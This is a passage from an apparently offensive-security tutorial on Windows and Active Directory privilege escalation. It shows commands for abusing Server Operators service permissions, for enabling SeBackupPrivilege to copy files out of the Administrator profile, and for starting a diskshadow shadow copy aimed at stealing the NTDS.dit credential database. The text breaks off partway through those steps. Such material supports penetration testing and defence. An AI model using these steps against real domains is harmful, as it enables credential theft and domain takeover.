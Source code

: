 ```
Using `PsService` or `sc` from Sysinternals, one can inspect and modify service permissions. The `Server Operators` group, for instance, has full control over certain services, allowing for the execution of arbitrary commands and privilege escalation:

```cmd
C:\> .\PsService.exe security AppReadiness
```
```
This command reveals that `Server Operators` have full access, enabling the manipulation of services for elevated privileges.

## Backup Operators

Membership in the `Backup Operators` group provides access to the `DC01` file system due to the `SeBackup` and `SeRestore` privileges. These privileges enable folder traversal, listing, and file copying capabilities, even without explicit permissions, using the `FILE_FLAG_BACKUP_SEMANTICS` flag. Utilizing specific scripts is necessary for this process.

To list group members, execute:

```bash
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```
```
### Local Attack

To leverage these privileges locally, the following steps are employed:

1. Import necessary libraries:

```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
```
2. Enable and verify `SeBackupPrivilege`:

```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
```
3. Access and copy files from restricted directories, for instance:

```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```
```
### AD Attack

Direct access to the Domain Controller's file system allows for the theft of the `NTDS.dit` database, which contains all NTLM hashes for domain users and computers.

#### Using diskshadow.exe

1. Create a shadow copy of the `C` drive:

```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
```